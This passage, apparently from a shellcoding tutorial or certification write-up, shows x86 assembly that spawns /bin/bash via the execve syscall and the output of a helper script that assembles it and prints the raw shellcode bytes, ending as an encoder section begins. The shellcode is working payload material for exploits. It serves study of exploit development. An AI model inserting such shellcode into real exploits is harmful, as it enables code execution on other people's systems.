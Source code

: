 ```nasm
	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f
	
	mov ebx, esp
	push eax
	mov edx, esp
	push ebx
	mov ecx, esp
	
	; syscall()
	mov al, 0xb
	int 0x80
```

Using the compilerX86.py, we can retrieve the shellcode from the `bash.nasm` file.

```bash
# python compilerX86.py -f bash
 
  ________  ________  _____ ______   ________  ___  ___       _______   ________     ___    ___ ________  ________         
 |\   ____\|\   __  \|\   _ \  _   \|\   __  \|\  \|\  \     |\  ___ \ |\   __  \   |\  \  /  /|\   __  \|\   ____\        
 \ \  \___|\ \  \|\  \ \  \\\__\ \  \ \  \|\  \ \  \ \  \    \ \   __/|\ \  \|\  \  \ \  \/  / | \  \|\  \ \  \___|      
  \ \  \    \ \  \\\  \ \  \\|__| \  \ \   ____\ \  \ \  \    \ \  \_|/_\ \   _  _\  \ \    / / \ \   __  \ \  \____   
   \ \  \____\ \  \\\  \ \  \    \ \  \ \  \___|\ \  \ \  \____\ \  \_|\ \ \  \\  \|  /     \/   \ \  \|\  \ \  ___  \ 
    \ \_______\ \_______\ \__\    \ \__\ \__\    \ \__\ \_______\ \_______\ \__\\ _\ /  /\   \    \ \_______\ \_______\ 
     \|_______|\|_______|\|__|     \|__|\|__|     \|__|\|_______|\|_______|\|__|\|__/__/ /\ __\    \|_______|\|_______|    
                                                                                    |__|/ \|__|     [bigb0ss] v1.0         

[+] Assemble: bash.nasm
[+] Linking: bash.o
[+] Shellcode: "\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
[+] ASM code: 0x31,0xc0,0x50,0x68,0x62,0x61,0x73,0x68,0x68,0x62,0x69,0x6e,0x2f,0x68,0x2f,0x2f,0x2f,0x2f,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

# Encoder
As per our encoding scheme, we can encode the retrieved shellcode by using the following Go script. 
